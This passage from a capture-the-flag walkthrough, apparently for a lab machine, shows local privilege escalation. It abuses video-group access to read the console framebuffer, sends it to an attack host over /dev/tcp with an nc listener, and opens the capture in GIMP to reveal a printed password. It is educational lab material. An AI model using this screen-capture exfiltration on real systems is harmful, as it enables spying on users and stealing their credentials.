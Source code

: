 Interesting outputs:

```bash
╔══════════╣ Login now
 19:21:54 up  3:11,  2 users,  load average: 0.55, 0.15, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1     -                16:11    3:11m  0.03s  0.03s -bash
moshe    pts/1    10.10.16.7       19:14   42.00s  0.05s  0.05s python3 -c import pty; pty.spawn("/bin/bash")
```

yossi is also logged on right now. tty1 mean he is physically on the machine. Since we are part of the video group, we can attempt to read the monitor of yossi. 

We can look in /dev/ and files relating to fb is to do with the user’s screen:

```bash
ls /dev | grep fb

fb0
```

Now let’s send the file over to our attack host. Before we do that, we also need to find the resolution size yossi’s monitor, otherwise there will be some errors.

```bash
#on attack box
nc -lnvp 9001 > fb.raw

#on target
cat /sys/class/graphics/fb0/virtual_size

1176,885

cat /dev/fb0 > /dev/tcp/10.10.16.7/9001
```

Now let’s use gimp to open the file:

```bash
sudo apt install gimp 
```

Click on show all files, then choose the file type as raw image data:

![image.png]({{ site.baseurl }}/assets/falafel/image%2015.png)

Once opened, let’s change our resolution to the one matching on the target. And change the pxiel format as well.

![image.png]({{ site.baseurl }}/assets/falafel/image%2016.png)

![image.png]({{ site.baseurl }}/assets/falafel/image%2017.png)

```bash
yossi:MoshePlzStopHackingMe!
```
